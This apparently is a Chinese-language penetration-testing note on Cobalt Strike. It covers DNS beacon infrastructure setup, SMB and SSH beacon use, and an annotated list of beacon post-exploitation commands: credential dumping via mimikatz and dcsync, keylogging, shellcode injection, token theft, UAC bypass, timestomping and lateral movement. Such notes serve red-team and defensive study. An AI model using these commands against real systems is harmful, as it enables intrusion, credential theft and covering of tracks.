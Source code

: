  ##### DNS Beacon
	编辑域的区域文件
	为 Cobalt Strike 系统创建 A 记录
	创建指向 Cobalt Strike 系统的 FQDN 的 NS 记录
	创建 DNS A 记录并将其指向您的 Cobalt Strike 团队服务器。使用 DNS NS 记录将多个域或子域委托给您的 Cobalt Strike 团队服务器的 A 记录。
	nslookup jibberish.beacon polling.campaigns.domain.com
	nslookup jibberish.beacon campaign.domain.com

	Digital Ocean 上的 DNS 示例：

	NS  example.com                     directs to 10.10.10.10.            86400
	NS  polling.campaigns.example.com   directs to campaigns.example.com.	3600
	A	campaigns.example.com           directs to 10.10.10.10	            3600 

	>systemctl disable systemd-resolved
	>systemctl stop systemd-resolved
	>rm /etc/resolv.conf
	>echo "nameserver 8.8.8.8" >  /etc/resolv.conf
	>echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
	配置：

	主机：campaigns.domain.com
	beacon：polling.campaigns.domain.com

 ##### SMB Beacon
  	link [host] [pipename]
	connect [host] [port]
	unlink [host] [PID]
	jump [exec] [host] [pipe]
	错误代码
| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |

 ##### SSH Beacon
  	部署一个 beacon
	beacon> help ssh
	Use: ssh [target:port] [user] [pass]
	Spawn an SSH client and attempt to login to the specified target

	beacon> help ssh-key
	Use: ssh [target:port] [user] [/path/to/key.pem]
	Spawn an SSH client and attempt to login to the specified target

	beacon的命令
	upload                    上传
	download                  下载
	socks                     启动 SOCKS4a
	sudo                      使用sudo执行命令
	rportfwd                  设置一个反向端口转发
	shell                     通过shell执行命令

	argue                     进程参数欺骗
	blockdlls                  阻止子进程加载非Microsoft DLL
	browserpivot              注入受害者浏览器进程
	bypassuac                绕过UAC提升权限
	cancel                    取消正在进行的下载
	cd                        切换目录
	checkin                   强制让被控端回连一次
	clear                     清除beacon内部的任务队列
	connect                   Connect to a Beacon peer over TCP
	covertvpn                 部署Covert VPN客户端
	cp                        复制文件
	dcsync                    从DC中提取密码哈希
	desktop                   远程桌面(VNC)
	dllinject                   反射DLL注入进程
	dllload                    使用LoadLibrary将DLL加载到进程中
	downloads                列出正在进行的文件下载
	drives                     列出目标盘符
	elevate                    使用exp
	execute                   在目标上执行程序(无输出)
	execute-assembly         在目标上内存中执行本地.NET程序  execute-assembly [/path/to/script.exe] [arguments]
	exit                       终止beacon会话
	getprivs                   Enable system privileges on current token
	getsystem                 尝试获取SYSTEM权限
	getuid                     获取用户ID
	hashdump                  转储密码哈希值
	help                       帮助
	inject                      在注入进程生成会话
	jobkill                     结束一个后台任务
	jobs                       列出后台任务
	kerberos_ccache_use       从ccache文件中导入票据应用于此会话
	kerberos_ticket_purge     清除当前会话的票据
	kerberos_ticket_use       Apply 从ticket文件中导入票据应用于此会话
	keylogger                 键盘记录
	kill                      结束进程
	link                      Connect to a Beacon peer over a named pipe
	logonpasswords            使用mimikatz转储凭据和哈希值
	ls                        列出文件
	make_token                创建令牌以传递凭据
	mimikatz                  运行mimikatz
	mkdir                     创建一个目录
	mode dns                  使用DNS A作为通信通道(仅限DNS beacon)
	mode dns-txt              使用DNS TXT作为通信通道(仅限D beacon)
	mode dns6                 使用DNS AAAA作为通信通道(仅限DNS beacon)
	mode http                 使用HTTP作为通信通道
	mv                        移动文件
	net                       net命令
	note                      备注       
	portscan                  进行端口扫描
	powerpick                 通过Unmanaged PowerShell执行命令
	powershell                通过powershell.exe执行命令
	powershell-import         导入powershell脚本 powershell-import [/path/to/script.ps1]
	ppid                      Set parent PID for spawned post-ex jobs
	ps                        显示进程列表
	psexec                    Use a service to spawn a session on a host
	psexec_psh                Use PowerShell to spawn a session on a host
	psinject                  在特定进程中执行PowerShell命令
	pth                       使用Mimikatz进行传递哈希
	pwd                       当前目录位置
	reg                       Query the registry
	rev2self                  恢复原始令牌
	rm                        删除文件或文件夹
	run                       在目标上执行程序(返回输出)
	runas                     以其他用户权限执行程序
	runasadmin                在高权限下执行程序
	runu                      Execute a program under another PID
	screenshot                屏幕截图
	setenv                    设置环境变量
	shinject                  将shellcode注入进程
	shspawn                   启动一个进程并将shellcode注入其中
	sleep                     设置睡眠延迟时间
	socks stop                停止SOCKS4
	spawn                     派生新的会话 
	spawnas                   Spawn a session as another user
	spawnto                   指明在派生会话时将shellcode注入到具体的进程
	spawnu                    选择一个临时的父进程，然后派生一个子进程，这个子进程同样可以用spawnto指定
	ssh                       使用ssh连接远程主机
	ssh-key                   使用密钥连接远程主机
	steal_token               从进程中窃取令牌
	timestomp                 将一个文件的时间戳应用到另一个文件
	unlink                    Disconnect from parent Beacon
	wdigest                   使用mimikatz转储明文凭据
	winrm                     使用WinRM横向渗透
	wmi                       使用WMI横向渗透
	执行命令，在beacon模式下键入shell+命令
![image](/assets/Pentest_Note/master/img/221.png)

	>sleep 0 交互模式，立刻执行命令
	注入DLL到某个进程
	>dllload [pid] [c:\path\to\file.dll] DLL需在目标上
	>kerberos_ticket_purge 清除票据
	>kerberos_ccache_use	[/path/to/file.ccache]  从ccache文件导入票据
	>kerberos_ticket_use [/path/to/file.ccache] 从ticket文件导入票据
	>kill pid 结束进程
	>timestomp [fileA]	[fileB] 修改文件时间戳
	>getuid	 获取当前用户
	>steal_token [pid] 窃取进程ID
	>rev2self 恢复原始令牌
	>powershell-import	[/path/to/local/script.ps1] 导入PS模块 
	>shinject [pid] <x86|x64> [/path/to/my.bin] 向进程注入shellcode
	>socks	port在指定端口开启代理
	>socks stop停止代理
	>rportfwd [bind port]	[forward host]	[forward port]开启端口转发
